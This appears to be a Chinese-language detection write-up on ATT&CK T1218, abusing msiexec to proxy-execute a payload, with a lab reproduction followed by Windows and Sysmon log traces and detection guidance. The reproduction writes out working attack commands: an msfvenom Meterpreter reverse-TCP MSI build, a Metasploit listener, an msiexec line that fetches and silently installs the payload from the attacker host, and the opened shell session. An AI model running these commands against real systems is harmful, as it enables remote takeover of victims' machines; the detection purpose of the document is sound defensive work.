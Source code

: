 # T1218-win-基于白名单Msiexec执行Payload

## 来自ATT&CK的描述

可信数字证书签署的二进制文件在Windows操作系统执行时，可通过数字签名验证保护。Windows安装过程中默认安装的一些微软签名的二进制文件可用来代理执行其它文件。攻击者可能会滥用此技术来执行可能绕过应用白名单机制和系统签名验证的恶意文件。该技术考虑了现有技术中尚未考虑的代理执行方法。

## 测试案例

Msiexec是Windows Installer的一部分。用于安装Windows Installer安装包（MSI）,一般在运行Microsoft Update安装更新或安装部分软件的时候出现，占用内存比较大。并且集成于Windows 2003，Windows 7等。

说明：Msiexec.exe所在路径已被系统添加PATH环境变量中，因此，Msiexec命令可识别。Ftp.exe是Windows本身自带的一个程序，属于微软FTP工具，提供基本的FTP访问。

说明：Ftp.exe所在路径已被系统添加PATH环境变量中，因此，Ftp.exe命令可识别。

· msiexec.exe /q /i"C:\path\to\file.msi"

· msiexec.exe /q /i http[:]//site[.]com/file.msi

· msiexec.exe /y "C:\path\to\file.dll"

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

## 检测日志

windows 安全日志（需要自行配置）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：windows 7

### 攻击分析

#### 生成payload.dll

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.126.146 lport=1234 -f msi > 1.msi
```

#### 执行监听

```bash
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.126.146
lhost => 192.168.126.146
msf5 exploit(multi/handler) > set lport 1234
lport => 1234
msf5 exploit(multi/handler) >expliot
```

#### 靶机执行payload

```cmd
msiexec /q /i http://192.168.126.146/1.msi
```

#### 反弹shell

```bash
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.126.146:1234
[*] Sending stage (180291 bytes) to 192.168.126.149
[*] Meterpreter session 1 opened (192.168.126.146:1234 -> 192.168.126.149:49323) at 2020-04-18 22:04:26 +0800

meterpreter > getuid
Server username: 12306Br0-PC\12306Br0
```

## 测试留痕

```log
# windows安全日志
事件ID： 4688
进程信息:
新进程 ID: 0xe78
新进程名: C:\Windows\System32\msiexec.exe

# sysmon日志
事件ID：1
UtcTime: 2020-04-18 14:04:16.596
ProcessGuid: {bb1f7c32-08e0-5e9b-0000-0010b8ff3f01}
ProcessId: 3704
Image: C:\Windows\System32\msiexec.exe
FileVersion: 5.0.7601.17514 (win7sp1_rtm.101119-1850)
Description: Windows® installer
Product: Windows Installer - Unicode
Company: Microsoft Corporation
OriginalFileName: msiexec.exe
CommandLine: msiexec  /q /i http://192.168.126.146/1.msi
CurrentDirectory: C:\Users\12306Br0\
User: 12306Br0-PC\12306Br0
LogonGuid: {bb1f7c32-5fc3-5e99-0000-00201ae20600}
LogonId: 0x6e21a
TerminalSessionId: 1
IntegrityLevel: Medium
Hashes: SHA1=443AAC22D57EDD4EF893E2A245B356CBA5B2C2DD
ParentProcessGuid: {bb1f7c32-08db-5e9b-0000-001049f63d01}
ParentProcessId: 1900
ParentImage: C:\Windows\System32\cmd.exe
ParentCommandLine: "C:\Windows\system32\cmd.exe"
```

## 检测规则/思路

无具体检测规则，可根据进程创建事件4688/1（进程名称、命令行）进行监控。本监控方法需要自行安装配置审核策略/sysmon。

可针对以下命令参数进行检测。

```dos
· msiexec.exe /q /i"C:\path\to\file.msi"

· msiexec.exe /q /i http[:]//site[.]com/file.msi

· msiexec.exe /y "C:\path\to\file.dll"
```

## 参考推荐

MITRE-ATT&CK-T1218

<https://attack.mitre.org/techniques/T1218/>

基于白名单的Payload

<https://blog.csdn.net/weixin_30790841/article/details/101848854>
